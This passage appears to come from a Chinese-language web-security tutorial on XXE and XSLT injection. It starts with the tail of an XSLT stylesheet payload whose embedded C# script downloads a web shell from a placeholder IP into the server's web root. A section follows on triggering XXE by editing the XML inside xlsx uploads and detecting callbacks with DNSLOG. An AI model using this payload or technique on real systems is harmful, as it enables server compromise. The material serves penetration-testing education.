xmlns:msxsl="urn:schemas-microsoft-com:xslt"
xmlns:user="http://mycompany.com/mynamespace">
<msxsl:script language="C#" implements-prefix="user">
<![CDATA[
public string xml()
{
    System.Net.WebClient webClient = new System.Net.WebClient();
    webClient.DownloadFile("https://x.x.x.x/shell.txt",
                   @"/var/www/html/shell.php");
return "Exploit Success";
}
]]>
</msxsl:script>
<xsl:template match="/">
<xsl:value-of select="user:xml()"/>
</xsl:template>
</xsl:stylesheet>
```


## 2.7、Excel文件导致XXE

Excel 2007及以后的版本使用的是Office Open XML格式（OOXML），它实际上只是XML文档的zip文件。我们将一个正常的XLSX文件更改后缀为ZIP文件，然后解压缩就会发现其中会有一个XML文件，如果应用程序在处理Excel文件时，未正确配置XML解析器，它可能会解析这些外部实体，从而触发XXE攻击。


测试时支持上传和预览docx，xlsx文件的功能点都可以进行测试，QQ邮箱和网易邮箱的附件预览处都曾出现过XXE漏洞。


修改xml文件内容，DNSLOG探测



在网站上传功能处进行上传修改后的xlsx文件,dnslog收到信息


